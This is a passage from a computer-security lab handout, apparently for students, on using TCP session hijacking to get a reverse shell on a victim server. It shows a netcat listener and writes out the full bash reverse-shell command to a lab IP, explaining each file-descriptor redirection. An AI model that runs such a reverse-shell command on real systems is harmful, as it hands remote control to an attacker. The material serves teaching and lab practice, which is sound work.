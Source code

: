 victim’s machine (i.e. the server machine). In the TCP session hijacking attack,
attackers cannot directly

run a command on the victim’s machine, so their job is to run a reverse-shell
command through the

session hijacking attack. In this task, students need to demonstrate that they
can achieve this goal.

**Figure 4: Reverse shell connection to the listening netcat process**

To have a bash shell on a remote machine connect back to the attacker’s machine,
the attacker needs a

process waiting for some connection on a given port. In this example, we will
use netcat. This program

allows us to specify a port number and can listen for a connection on that port.
In Figure 4(a), netcat (nc

for short) is used to listen for a connection on port 9090. In Figure 4(b), the
/bin/bash command

represents the command that would normally be executed on a compromised server.
This command has

the following pieces:

• "/bin/bash -i": i stands for interactive, meaning that the shell must be
interactive (must provide a shell

prompt)

• "\> /dev/tcp/172.25.0.4/9090": This causes the output (stdout) of the shell to
be redirected to the tcp

connection to 172.25.0.4’s port 9090. The output stdout is represented by file
descriptor number 1.

• "0\<&1": File descriptor 0 represents the standard input (stdin). This causes
the stdin for the shell to be

obtained from the tcp connection.

(a) Use netcat to listen to connection

(b) Run the reverse shell

• "2\>&1": File descriptor 2 represents standard error stderr. This causes the
error output to be redirected

to the tcp connection.

In summary, "/bin/bash -i \> /dev/tcp/172.25.0.4/9090 0\<&1 2\>&1" starts a bash
shell, with its input

coming from a tcp connection, and its standard and error outputs being
redirected to the same tcp

connection. In Figure 4(a), when the bash shell command is executed on the
server (172.25.0.2), it

